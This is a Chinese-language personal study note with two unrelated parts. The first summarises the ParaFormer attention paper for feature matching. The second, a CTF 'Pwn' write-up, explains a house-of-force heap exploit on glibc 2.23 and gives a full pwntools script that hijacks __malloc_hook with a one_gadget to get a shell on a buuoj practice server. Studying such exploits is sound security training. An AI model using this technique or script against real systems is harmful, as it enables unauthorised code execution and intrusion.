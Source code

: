 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images\三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为$p^X \in R^{M\times3}$,$p^Y \in R^{N\times3}$,  设置描述符分别为$d^X \in R^{M\times C}$,$d^Y \in R^{N\times C}$。波形的生成公式如下
$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\,\;= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$
在Wave-PE中将位置$p$和描述符$d$分别映射为为幅度$A$和相位$\theta$通过MLP将其转换为位置编码$x,[.,.] $表示链接。
$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$
接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为$Q、K、V$。然后并行计算自注意力和交叉注意力，自注意力的输入是$(Q_x,V_x, K_x)$和$(Q_y,V_y, K_y)$对于自注意力来说采用标准的注意力公式。
$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$
对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用$(Q_xK_y^T)^T$来代替

$Q_yK_x^T$，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为$x^l ∈ R^{N×D}$，注意力权重为$A^l ∈ R^{N×N}$。提出的注意力池化定义为：
$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层$l+1$的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分$s∈R^N$,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$提取s中索引为$idx$的值然后利用$sigmoid$运算来生成gating信号，$\odot$表示逐元素矩阵乘法。

反池化上采样操作则为
$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$
$x^l∈R^{k\times C^l}$是当前的特征矩阵，$0_{N \times C^{l+1}}$是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。$idx ∈ R^k$是在对应池化层中选择的点的索引。然后根据$idx$将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

